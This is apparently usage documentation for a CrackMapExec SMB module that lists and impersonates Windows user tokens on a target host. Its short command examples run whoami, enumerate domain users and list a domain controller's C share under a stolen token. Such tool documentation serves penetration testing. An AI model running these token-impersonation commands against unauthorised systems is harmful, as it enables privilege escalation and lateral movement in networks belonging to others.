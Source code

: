 # Module usage


## List available tokens
cme smb <ip> -u USERNAME -p PASSWOD -M impersonate
  
## Impersonate user token
* cme smb <ip> -u USERNAME -p PASSWORD -M impersonate -o TOKEN=<TOKEN_ID> COMMAND="cmd.exe /c whoami"
* cme smb <ip> -u USERNAME -p PASSWORD -M impersonate -o TOKEN=<TOKEN_ID> COMMAND="net user /domain"
* cme smb <ip> -u USERNAME -p PASSWORD -M impersonate -o TOKEN=<TOKEN_ID> COMMAND="cmd.exe /c dir \\\\DC.whiteflag.local\\C"
